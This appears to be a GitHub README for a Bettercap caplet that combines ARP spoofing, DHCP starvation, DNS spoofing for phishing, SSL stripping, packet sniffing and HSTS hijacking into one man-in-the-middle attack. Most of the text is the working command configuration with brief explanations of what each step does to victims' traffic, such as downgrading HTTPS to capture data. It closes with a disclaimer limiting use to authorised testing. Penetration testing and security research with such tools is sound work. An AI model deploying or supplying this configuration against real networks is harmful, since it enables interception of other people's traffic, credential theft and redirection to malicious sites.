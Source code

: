 ```
# Ultimate Spoof Caplet  

🚀 A powerful **Bettercap caplet** for **ARP Spoofing, DNS Spoofing, DHCP Starvation, SSL Stripping, and Packet Sniffing**. This tool is designed for **penetration testing** and **network security research**.  

---

## Features  
✅ **Network Probing & Reconnaissance**  
✅ **Man-in-the-Middle (MITM) Attacks**  
✅ **ARP Spoofing (Full-Duplex)**  
✅ **DNS Spoofing for Phishing Attacks**  
✅ **DHCP Starvation to Exhaust IPs**  
✅ **SSL Stripping (HTTPS Downgrade)**  
✅ **Packet Sniffing & Traffic Interception**  
✅ **HTTP Proxy & HSTS Hijacking**  

---

## Installation & Usage  
### Clone the Repository  
```sh
git clone https://github.com/paarthkaringula2004/Ultimate-Spoof-Caplet.git
cd Ultimate-Spoof-Caplet
```

### Run in Bettercap  
```sh
sudo bettercap -caplet UltimateSpoof.cap
```

---

## Caplet Configuration Breakdown  

### **1. Network Probing & Reconnaissance**  
```sh
net.probe on  
net.recon on  
```
- **Scans** the network for active devices.  
- **Collects** information on connected devices and open ports.  

### **2. ARP Spoofing (MITM Attack)**  
```sh
set arp.spoof.fullduplex true  
set arp.spoof.targets [Target IP]  
set arp.spoof.gateway true  
```
- **Intercepts** both incoming and outgoing traffic.  
- **Acts** as the network gateway to manipulate traffic.  

### **3. DHCP Starvation Attack**  
```sh
set dhcp.starvation on  
set dhcp.starvation.targets [Target IP]  
```
- **Floods** the network’s DHCP server to exhaust IP addresses.  

### **4. DNS Spoofing**  
```sh
set dns.spoof.domains {...}  
dns.spoof on  
```
- **Redirects** users from real websites to fake/malicious ones.  

### **5. SSL Stripping (HTTPS Downgrade)**  
```sh
set sslstrip.enable true  
set sslstrip.ports {80,443,8080}  
sslstrip on  
```
- **Forces** HTTPS sites to load over HTTP to capture data.  

### **6. Packet Sniffing**  
```sh
set net.sniff.local true  
set net.sniff.output /path/to/capture/file.cap  
net.sniff on  
```
- **Captures** unencrypted network traffic for analysis.  

### **7. HTTP Proxy & HSTS Hijacking**  
```sh
set http.proxy.script /usr/local/share/bettercap/caplets/hstshijack/hstshijack.js  
set hstshijack.targets {...}  
http.proxy on  
```
- **Intercepts** and modifies HTTP requests.  

---

## Disclaimer  
⚠️ **For educational and ethical testing only.** Unauthorized use on a network without permission is **illegal** and violates **cyber laws**.  

---

📌 **Contributors & Support**  
👤 Created by **[@paarthkaringula2004](https://github.com/paarthkaringula2004)**  

Feel free to **fork, modify, and contribute**! 🚀  
```
